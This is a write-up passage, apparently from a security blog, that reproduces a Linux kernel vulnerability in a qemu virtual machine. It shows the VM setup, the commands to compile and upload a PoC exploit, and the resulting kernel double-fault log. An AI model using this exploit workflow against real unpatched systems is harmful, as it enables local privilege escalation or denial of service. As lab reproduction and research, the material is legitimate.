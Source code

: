 I'm going to use ``qemu`` to virtualize all the way down; in this case I'm using a root
filesystem built with ``buildroot`` in order to make the system boot quickly

```
$ qemu-system-x86_64 \
     -hda rootfs.ext2 \
     -m 1024 \
     -enable-kvm \
     -kernel deb/boot/vmlinuz-3.2.0-23-generic \
     -append 'root=/dev/sda \
     console=tty0 console=ttyS0 rw' \
     -net nic,model=virtio -net user,hostfwd=tcp::2222-:22 \
     -serial stdio
```

The virtual console is redirect to the terminal and the port 2222 is redirect
to port 22 on the physical machine so that I can connect with ``ssh`` and
copy the PoC.

**Take in mind that you must have a physical Intel processor in order to see
this vulnerability!** ``qemu`` is unable to simulate it, even if you specify an
option for ``-cpu``.

What remains to do is to download the exploit, compile it (statically) and upload it
on the box

```
$ gcc -g -Wall cve.c -o cve -static
$ scp -o StrictHostKeyChecking=no -P 2222 cve root@localhost:/tmp
```

and finally execute it

```
# /tmp/cve
IDT addr = 0xffffffffff81dd7000
# [  307.696010] double fault: 0000 [#1] SMP 
[  307.696010] CPU 0 
[  307.696010] Modules linked in:
[  307.696010] 
[  307.696010] Pid: 124, comm: cve Not tainted 3.2.0-23-generic #36-Ubuntu QEMU Standard PC (i440FX + PIIX, 1996)
[  307.696010] RIP: 0010:[<000000008ffffbfe>]  [<000000008ffffbfe>] 0x8ffffbfd
[  307.696010] RSP: 0018:ffffffff81dd7010  EFLAGS: 00010046
[  307.696010] RAX: ffffffff81dd70e8 RBX: 0000000000000001 RCX: ffffffff8165c9ad
[  307.696010] RDX: 00000000ffffffff RSI: 0000000000000000 RDI: ffffffff81dd7078
[  307.696010] RBP: ffffffff81dd7068 R08: 81658e010010cb00 R09: 00000000ffffffff
[  307.696010] R10: 81668e0000106b10 R11: 0000000000000246 R12: ffffffff81dd7078
[  307.696010] R13: 0000000000000000 R14: 81668e0200106a90 R15: 00000000ffffffff
[  307.696010] FS:  0000000001415880(0063) GS:ffff88003fc00000(0000) knlGS:0000000000000000
[  307.696010] CS:  0010 DS: 0000 ES: 0000 CR0: 000000008005003b
[  307.696010] CR2: 000000000000c500 CR3: 000000003cdd0000 CR4: 00000000000006f0
[  307.696010] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[  307.696010] DR3: 0000000000000000 DR6: 00000000ffff0ff0 DR7: 0000000000000400
[  307.696010] Process cve (pid: 124, threadinfo ffff88003cdc6000, task ffff88003cf9dbc0)
[  307.696010] Stack:
[  307.696010]  0000000000000000 ffffffff8165d06f 0000000000000010 0000000000010046
[  307.696010]  ffffffff81dd7048 0000000000000018 8166ee0000106a10 00000000ffffffff
[  307.696010]  0000000000000001 81668e0000106ac0 00000000ffffffff 00000000ffffffff
[  307.696010] Call Trace:
[  307.696010] Code:  Bad RIP value.
[  307.696010] RIP  [<000000008ffffbfe>] 0x8ffffbfd
[  307.696010]  RSP <ffffffff81dd7010>
[  307.696010] ---[ end trace 971eb89b5231b79f ]---
```
